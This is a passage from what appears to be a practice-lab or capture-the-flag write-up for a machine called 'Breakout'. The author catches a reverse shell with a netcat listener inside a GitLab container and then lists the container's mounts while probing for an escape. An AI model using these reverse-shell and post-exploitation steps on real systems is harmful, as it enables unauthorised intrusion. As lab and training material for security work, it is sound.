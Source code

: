 ```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Breakout]
└─$ nc -lvnp 1337    
listening on [any] 1337 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.168.182] 39900
bash: cannot set terminal process group (339): Inappropriate ioctl for device
bash: no job control in this shell
git@breakout:~/gitlab-workhorse$ 
```

Follow the steps which we did previously to stabilize the reverse shell 

Now lets check if we have access to the directory

```
git@breakout:/etc/gitlab$ ls /srv -al
total 8
drwxr-xr-x 2 root root 4096 Jan 19  2021 .
drwxr-xr-x 1 root root 4096 Mar  3  2022 ..
git@breakout:/etc/gitlab$
```

Hmm nothing is there

So maybe it isn't really mounted in the same path

Lets check out whats mounted in this container

```
git@breakout:/etc/gitlab$ mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/P6MM3ZGGLY5NEE4VEHROFVT4YN:/var/lib/docker/overlay2/l/G4JXNQIFE7P5VVLEVIKNXKFKBA:/var/lib/docker/overlay2/l/SRZH7KOERQUBG6Q45PNMPH7ZY6:/var/lib/docker/overlay2/l/355O7TWU7XFQV2NFZQ2RGQRYVR:/var/lib/docker/overlay2/l/QV5R5YOOB4HIIOHUP4Z2OAYMAP:/var/lib/docker/overlay2/l/Q4UMANCVMLIOTA56TUPI5XPIGQ:/var/lib/docker/overlay2/l/BVU7LQXLDRR25S6IOOY6NRDGXV:/var/lib/docker/overlay2/l/UOYHQU37CUKGAR434NYS7Z42OE:/var/lib/docker/overlay2/l/NAHWTB25BLS56OONXJDSRQ3X3L:/var/lib/docker/overlay2/l/YCDZQ6CZGDFIIKXXWFPKPLK7MD,upperdir=/var/lib/docker/overlay2/d8ce9479e17ee91087febfe48cbb3bc889ce37f4e0bfcb3ba8116a5170efde4c/diff,workdir=/var/lib/docker/overlay2/d8ce9479e17ee91087febfe48cbb3bc889ce37f4e0bfcb3ba8116a5170efde4c/work,xino=off)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,size=65536k,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (ro,nosuid,nodev,noexec,relatime,xattr,name=systemd)
cgroup on /sys/fs/cgroup/blkio type cgroup (ro,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (ro,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/freezer type cgroup (ro,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (ro,nosuid,nodev,noexec,relatime,hugetlb)
cgroup on /sys/fs/cgroup/devices type cgroup (ro,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/memory type cgroup (ro,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/rdma type cgroup (ro,nosuid,nodev,noexec,relatime,rdma)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (ro,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/cpuset type cgroup (ro,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/perf_event type cgroup (ro,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/pids type cgroup (ro,nosuid,nodev,noexec,relatime,pids)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
/dev/sda2 on /etc/gitlab type ext4 (rw,relatime)
/dev/sda2 on /etc/resolv.conf type ext4 (rw,relatime)
/dev/sda2 on /etc/hostname type ext4 (rw,relatime)
/dev/sda2 on /etc/hosts type ext4 (rw,relatime)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
/dev/sda2 on /var/log/gitlab type ext4 (rw,relatime)
/dev/sda2 on /var/opt/gitlab type ext4 (rw,relatime)
proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/fs type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/irq type proc (ro,nosuid,nodev,noexec,relatime)
```